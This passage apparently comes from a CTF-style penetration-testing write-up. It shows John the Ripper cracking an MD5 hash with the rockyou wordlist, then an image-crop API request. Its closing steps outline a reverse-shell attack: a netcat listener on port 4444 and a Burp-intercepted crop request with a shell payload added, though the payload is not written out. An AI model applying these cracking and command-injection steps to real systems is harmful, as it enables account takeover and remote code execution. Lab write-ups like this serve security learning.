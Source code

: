 ### John

> john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt testhash
> 

```jsx
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt testhash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
iambatman        (testuser)     
1g 0:00:00:00 DONE (2025-10-23 02:38) 14.28g/s 3477Kp/s 3477Kc/s 3477KC/s iloved2..hiroaki
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

```jsx
iambatman
```

![2025-10-23_02-59.png](img9.png)

seeing around this user can manage groups and edit and modify the image by cropping a color changing and other things 

> For **image crop** the request is like this
> 

![Screenshot From 2025-10-23 03-06-09.png](img13.png)

```jsx

{"imageId":"9b9d88ea-e58f-47fd-8bf0-f19d20c0bde4","transformType":"crop","params":{"x":0,"y":1,"width":1024,"height":1024}}
```

## Exploit style POST

### Burp-suite

> exploit-style request
> 

![2025-10-23_03-05.png](img10.png)

1. start `interesting` on

![2025-10-23_03-12.png](img11.png)

### Listener (4444)

> start `nc -lvcp 4444`
> 
> 1. start `interesting` on
> 2. Apply the `crops` in the image in the website 
> 3. Catcher the request modify it by adding `revers shell`
> 4.    `Forward`  the request send it 
